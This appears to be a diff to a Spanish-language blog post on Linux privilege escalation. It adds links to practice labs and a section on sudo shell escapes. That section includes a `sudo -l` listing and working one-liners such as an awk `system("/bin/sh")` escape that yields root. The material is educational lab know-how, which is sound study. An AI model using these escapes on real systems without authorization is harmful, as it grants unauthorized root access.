

Before and after one commit to debiantano/debiantano.github.io, a Jekyll site: the page built from _posts/2021-07-19-Linux-PriVesc.md, in a window 1280 px wide and 1400 px high, scrolled down 4417 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; a script that is not in the unit is left out; before the commit the page ends 4923 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2021-07-19-Linux-PriVesc.md

````diff
--- a/_posts/2021-07-19-Linux-PriVesc.md
+++ b/_posts/2021-07-19-Linux-PriVesc.md
@@ -57,10 +57,17 @@ Linux parrot 5.7.0-2parrot2-amd64 #1 SMP Debian 5.7.10-1parrot2 (2020-07-31) x86
 $ cat /proc/version
 Linux version 5.7.0-2parrot2-amd64 (team@parrotsec.org) (gcc version 9.3.0 (Debian 9.3.0-15), GNU ld (GNU Binutils for Debian) 2.34.90.20200706) #1 SMP Debian 5.7.10-1parrot2 (2020-07-31)
 ```
-#### Escalada de Privilegios:
+#### Recursos:
 • [LinuxPrivChecker](https://github.com/linted/linuxprivchecker)
 • Searchsploit "linux kernel"
 • [LinuxExploitSuggester2](https://github.com/jondonas/linux-exploit-suggester-2)
+
+#### Maquinas para practicar:
+[- Linux PrivEsc (TryHackMe)](https://tryhackme.com/room/linuxprivesc)
+[- 0day (TryHackMe)](https://tryhackme.com/room/0day)
+- Cybersploit (VulnHub)
+- Loly (VulnHub)
+- BTRSys 2.1 (VulnHub)
 
 ### Ejemplo:
 ```bash
@@ -181,5 +188,43 @@ Password:
 firefart@debian:/home/user# id
 uid=0(firefart) gid=0(root) groups=0(root)
 
+```
+----
+----
+## Sudo (Secuencias de escape shell)
+#### Recursos:
+[- gtfobins](https://gtfobins.github.io/ "gtfobins.github.io")
+
+### Ejemplo
+```bash
+user@debian:~$ sudo -l
+Matching Defaults entries for user on this host:
+    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
+
+User user may run the following commands on this host:
+    (root) NOPASSWD: /usr/sbin/iftop
+    (root) NOPASSWD: /usr/bin/find
+    (root) NOPASSWD: /usr/bin/nano
+    (root) NOPASSWD: /usr/bin/vim
+    (root) NOPASSWD: /usr/bin/man
+    (root) NOPASSWD: /usr/bin/awk
+    (root) NOPASSWD: /usr/bin/less
+    (root) NOPASSWD: /usr/bin/ftp
+    (root) NOPASSWD: /usr/bin/nmap
+    (root) NOPASSWD: /usr/sbin/apache2
+    (root) NOPASSWD: /bin/more
+
+user@debian:~$ sudo awk 'BEGIN {system("/bin/sh")}'
+sh-4.1# id
+uid=0(root) gid=0(root) groups=0(root)
+
+user@debian:~$ sudo iftop
+interface: eth0
+IP address is: 10.10.117.147
+MAC address is: 02:fe:2b:4b:63:f1
+root@debian:/home/user# id
+uid=0(root) gid=0(root) groups=0(root)
+
+
 
 ```
````
